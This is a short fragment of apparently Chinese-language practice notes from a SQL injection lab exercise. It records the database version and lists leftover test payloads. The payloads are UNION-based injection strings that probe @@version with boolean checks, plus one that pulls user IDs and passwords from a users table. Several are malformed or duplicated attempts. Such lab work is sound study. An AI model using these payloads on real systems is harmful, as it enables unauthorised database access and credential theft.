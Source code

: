 到目前為止可以看出 DB 的版本是 `10.1.26`

## memo

- SQL 測試的殘渣
    
    ```sql
    0' UNION SELECT 1,IF (SUBSTRING((SELECT @@version),1,7) like '10.%', 'pass', 'failed')'
    ```
    
    ```bash
    0' UNION SELECT IF (SUBSTRING((SELECT @@version),1,2) = '10', 'pass', 'failed') WHERE '1'='1
    ```
    
    ```bash
    # User ID exists in the database.
    0' UNION SELECT 1,IF (SUBSTRING((SELECT @@version),1,7) like '10.%', 'pass', 'failed')'
    ```
    
    ```bash
    0' SELECT 1,IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE)'
    
    ```
    
    ```bash
    2' UNION SELECT user_id,password FROM users WHERE user_id='1
    ```
    
    ```bash
    0' UNION SELECT 1,IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE)
    ```
    
    ```bash
    0' UNION SELECT 1,IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE) AS 2'
    ```
    
    ```bash
    0' UNION SELECT 1 WHERE '1'=1'
    ```
    
    ```bash
    0' UNION SELECT 1, (IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE)) AS '2
    ```
    
    ```bash
    0' UNION SELECT 1, (IF (SUBSTRING((SELECT @@version),1,2) = '10', TRUE, FALSE)) AS '2
    ```
    
    ```bash
    0' UNION SELECT 1, (IF (SUBSTRING((SELECT @@version),1,2) = '10', 'pass', 'failed')) AS '2
    ```
    
    ```bash
    0' UNION SELECT 1,(IF (SUBSTRING((SELECT @@version),1,2) = '00', TRUE, FALSE))
    
    ```
    